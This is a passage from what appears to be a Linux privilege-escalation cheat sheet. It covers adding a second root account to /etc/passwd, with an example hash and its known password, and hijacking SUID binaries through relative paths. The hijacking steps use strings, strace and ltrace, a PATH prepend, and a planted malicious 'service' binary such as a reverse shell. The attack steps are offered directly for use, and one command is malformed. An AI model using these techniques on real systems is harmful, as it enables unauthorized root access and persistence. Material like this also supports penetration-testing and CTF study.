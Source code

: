 Just edit /etc/passwd and add another root user at the bottom with some password hash you know the password of.

Example (password is cowabunga77):
```bash
hack:$1$hack$Ms0RDU0fPwY2uBBL9/Cnb/:0:0:root:/root:/bin/bash
```


## Relative Path Highjacking

The SUID file might execute some system() commands. If those commands do not have absolute paths, then you can most likely highjack them by simply changing your own PATH before executing the SUID file.

If possible try to use **pspy** to see what gets executed when you run the SUID file. 

Otherwise you need to do manual enumeration.

Manual commands used to see what system commands get executed by the SUID file:

```bash
$ strings /usr/local/bin/vulnerable_bin
/lib64/ld-linux-x86-64.so.2
#...
service apache2 start
```

Here we see the apache2 service being started via `service` command.

Confirm with strace:
```bash
$ strace-v -f -e execve /usr/local/bin/vulnerable_bin 2>&1 | grep service
[pid12573] execve("/bin/sh", ["sh", "-c", "service apache2 start"],
#...
```

Or using ltrace:
```bash
$ ltrace /usr/local/bin/vulnerable_bin 2>&1 | grep service
system("service apache2 start"
```

Use the usual PATH trick to add a directory at the start of your PATH:

```bash
export $PATH=/tmp/exploit/:$PATH
```

Create a malicious binary (e.g. a reverse shell) in /tmp/exploit/ named `service`.

Re-run the SUID file and your malicious "service" binary should be executed instead of the regular service binary.


## Shared Object Library Highjacking

Sometimes we might not be able to exploit a SUID file directly, but rather one of the `.so` libraries it tries to execute.
